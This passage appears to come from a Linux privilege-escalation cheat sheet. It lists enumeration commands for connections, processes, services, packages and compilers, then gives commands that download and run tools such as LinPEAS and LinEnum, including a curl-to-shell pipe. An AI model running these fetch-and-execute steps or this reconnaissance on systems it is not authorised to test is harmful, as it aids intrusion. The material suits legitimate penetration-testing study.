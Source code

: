 ```bash
# Active Connections
netstat -antup
netstat -tunlp
ss -tunlp
```

#### Running Services
```bash
# Process List
ps aux
ps -ef
top

# Service Status
service --status-all
systemctl list-units --type=service
```

#### Installed Software
```bash
# Installed Packages
dpkg -l
rpm -qa
ls -la /usr/bin/
ls -la /sbin/

# Find Development Tools
find / -name gcc
find / -name cc
find / -name perl
find / -name python
find / -name python2
find / -name python3
```

### Automated Enumeration Tools

```bash
# LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

# LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

# Linux Smart Enumeration
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh
./lse.sh -l 1 -i

# Linux Exploit Suggester
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```
